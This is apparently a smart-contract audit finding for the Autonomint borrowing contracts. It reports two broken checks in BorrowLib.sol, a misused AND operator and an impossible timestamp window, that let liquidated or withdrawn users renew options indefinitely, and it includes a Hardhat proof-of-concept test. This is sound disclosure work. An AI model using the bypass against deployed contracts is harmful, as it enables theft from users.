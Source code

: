 Petite Mauve Shetland

High

# Liquidated/withdrawed user can renew borrowed option

### Summary

In the call chain `borrowing.sol::renewOptions()` -> `BorrowLib.sol::renewOptions()` -> [BorrowLib.sol::getOptionFeesToPay()](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/lib/BorrowLib.sol#L431) we are able to get actual fees to pay, although the invariant is broken two times in a roll, to be specific:

```solidity
if (depositDetail.withdrawed && depositDetail.liquidated)
    revert IBorrowing.Borrow_AlreadyWithdrewOrLiquidated();
```

In the statement above ^^, there can't be a deposit that has been both withdrawed and liquidated. My understanding is that this should have been logical OR operator `||`.

In the next statement:

```solidity
// check the user is eligible to renew position
  if (
      block.timestamp <
      depositDetail.optionsRenewedTimeStamp + 15 days &&
      block.timestamp >
      depositDetail.optionsRenewedTimeStamp + 30 days
  ) revert IBorrowing.Borrow_DeadlinePassed();
```

The two requirements cannot be true simultaneously because no timestamp can be both less than 15 days and greater than 30 days from the same base timestamp.

This way we bypass two important rules in regards to options and we will be able to successfully renew options details.

### Root Cause

_No response_

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

_No response_

### PoC

You can replace the test `BorrowingTest.ts::it("Should revert DeadlinePassed",async function()` with the minor changes I have introduced. This way we are testing if a user will be able to renew contract after ~1600 days !


```typescript
it("Should revert DeadlinePassed",async function(){
  const {
      BorrowingContractA,BorrowingContractB,
      CDSContractA,CDSContractB,
      usdtA,usdtB,TokenB,
      treasuryA,globalVariablesA
  } = await loadFixture(deployer);
  const timeStamp = await time.latest();

  await usdtA.connect(user1).mint(user1.getAddress(),10000000000);
  await usdtA.connect(user1).approve(CDSContractA.getAddress(),10000000000);
  const options = Options.newOptions().addExecutorLzReceiveOption(400000, 0).toHex().toString()

  let nativeFee = 0;
  [nativeFee] = await globalVariablesA.quote(1,0,options, false)
  await CDSContractA.connect(user1).deposit(10000000000,0,true,10000000000,100000, { value: nativeFee.toString()});

  await usdtB.connect(user1).mint(user1.getAddress(),10000000000);
  await usdtB.connect(user1).approve(CDSContractB.getAddress(),10000000000);
  await CDSContractB.connect(user1).deposit(10000000000,0,true,10000000000,100000, { value: nativeFee.toString()});
  
  const depositAmount = ethers.parseEther("50");

  await BorrowingContractB.connect(user2).depositTokens(
      100000,
      timeStamp,
      [1,
      110000,
      ethVolatility,
      1,
      depositAmount],
      {value: (depositAmount + BigInt(nativeFee))})

  const blockNumber = await ethers.provider.getBlockNumber(); // Get latest block number
  const latestBlock = await ethers.provider.getBlock(blockNumber);
  const latestTimestamp1 = latestBlock.timestamp;
  await time.increaseTo(latestTimestamp1 + 138240000);

  const tx =await  BorrowingContractB.connect(user2).getOptionFeesToPay(1);
  await expect(tx).not.to.be.reverted;
})
```

### Mitigation

_No response_